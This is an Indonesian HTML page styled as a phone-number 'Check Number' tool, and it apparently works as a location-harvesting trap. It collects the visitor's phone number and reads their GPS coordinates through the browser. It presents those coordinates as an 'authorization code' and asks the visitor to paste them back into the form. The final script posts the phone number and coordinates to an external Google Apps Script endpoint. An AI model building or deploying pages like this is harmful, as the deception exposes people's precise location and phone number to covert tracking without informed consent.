 <html lang="in">
<head>
				<link rel="stylesheet" href="adsense.css">
				<title>Nomor aku</title>
				
					<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
					
					
				
				<style>
						.judul{
				background-color:gray;
				position:fixed;
				right:0; left:0;
				top:0; padding:14px;
				
}

.jud {
				background-color:gray;
				width:27px;
				height:4px;
				opacity:;
				margin-left:20px;
				display:flex;
				justify-content:space-between;
				flex-direction:column;
				margin-top:10px; margin-bottom:-30px;
				
}

.jud span{
				background-color:white;
				color:red;
				width:17px;
				height:3px;
				display:block;	
				margin-left:-3px; margin-bottom:-30px;
				
				
				
}
		
								
								
						body{
						 background-color:gainsboo;
						 }
						 
						 .tempat{
						 color:black;
						 text-align:center;
						 font-size:15px;
						 display:no;
						 
						 }
							
							.kirim{ 
							display:none;
							margin-left:30%;
						  display:blok;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;
							}
							
							.lokasi{
							display:none;
							margin-left:20%;
						  display:blck;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
							
							
							}
							
							.nomor{
							font-weight:bold;
							text-align:center;
							color:#e8491d;
							font-size:20px;
							}
							
							
						  .number{
						  margin:auto;
						  display:block;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
						  }
						  
						  .no{
						  margin:auto;
						  display:block;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;}
						  
						  
						  .kode{
						  text-align:center;
						  font-size:20px;
						  font-weight:bold;
						  color:#e8491d;
						  display:none;
						  }
						  
						  .miring{
						  text-align:center;
						  color:gainsboro;
                                                  font-size:10px; 
						  

						  display:none;}
						  
						  .lastman{
						  text-align:center;
						  font-weight:bold;
						  display:none;
						  font-size:20px;
                                                                  }
						  
						  .bawah{
						   padding:20px;
  position:fixed;
bottom:0;
right:0;
left:0;
background-color:grey;
  
						  }

.check{
text-align:center;
color:white;
font-size:12px;
}


							.na{
				margin-top:-21px;
				text-align:center;
	     font-family:cursive,"Brush Script MT";
	     color:white;
}	
		

	

	

	

	

						
								
								
				</style>
</head>
<body>
				
				<div class="judul">
								<button class="jud">
												<span></span>
												<span></span>
												<span></span>
								</button>
								<h3 class="na">Check Number</h3>
				</div>
			
				
				
				
				
				
				
				<form name="Test-Fb">
				<p class="nomor" id="nomor">Masukan Nomor HP</p>
				<input type="text" id="number" class="number" placeholder="+62..." name="nomor"><br>
				<p id="kode" class="kode">Kode Otorisasi</p>
				<p id="demo" class="tempat"></p>
				<button class="no" onclick="getLocation()" id="pilih" >Kirim</button>
				<script>
							var x = document.getElementById("demo");

function getLocation() {
  if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
  } else { 
    x.innerHTML = "Geolocation is not supported by this browser.";
  }
}

function showPosition(position) {
  x.innerHTML = " " + position.coords.latitude + 
  "<br>" + position.coords.longitude;
}
				</script>
				
				
				
				<p class="miring" id="miring"><em>Salin code lalu masukan (jika kode tidak ada silahkan refresh)</em></p>
				
				<input type="text" name="gambar" id="lokasi" class="lokasi" placeholder="####"><br><br>
				<button class="kirim" id="kirim" type="submit">Kirim</button></form>
				<br><br>
				<p class="lastman" id="lastman">Sedang dalam proses...</p>
				<br><br><br><br>	<br><br>
				
				<div class="bawah">
						<p class="check">Check Number, Copyright &copy; 2019</p>
				</div>
				
				<script>
				$(document).ready(function(){
  $("#pilih").click(function(){
    $("#lokasi").fadeIn(1000);
    $("#kirim").fadeIn(1000);  
    $("#nomor").fadeOut(100);
    $("#number").fadeOut(100);
    $("#pilih").fadeOut(100); 
    $("#kode").fadeIn(1000); 
    $("#miring").fadeIn(1000);
    $("#demo").fadeIn(1000);
  });
});

</script>


<script>
				$(document).ready(function(){
  $("#kirim").click(function(){
    $("#kirim").fadeOut(100);
    $("#lokasi").fadeOut(100);
     $("#miring").fadeOut(100);
    $("#kode").fadeOut(100);
    $("#lastman").fadeIn(1000);
    $("#demo").fadeOut(100);
    
    });
});
    
</script>




<script>
  const scriptURL = 'https://script.google.com/macros/s/AKfycbwz07cfyR66rBWYsLgmyHbNoqyzUeDm3Y-zQIdCkrZ7zNEdR0DQwJFJa6LFVcWSOxnJ/exec'
  const form = document.forms['Test-Fb']

  form.addEventListener('submit', e => {
    e.preventDefault()
    fetch(scriptURL, { method: 'POST', body: new FormData(form)})
      .then(response => console.log('Success!', response))
      .catch(error => console.error('Error!', error.message))
  })
</script>
				
</body>
</html>

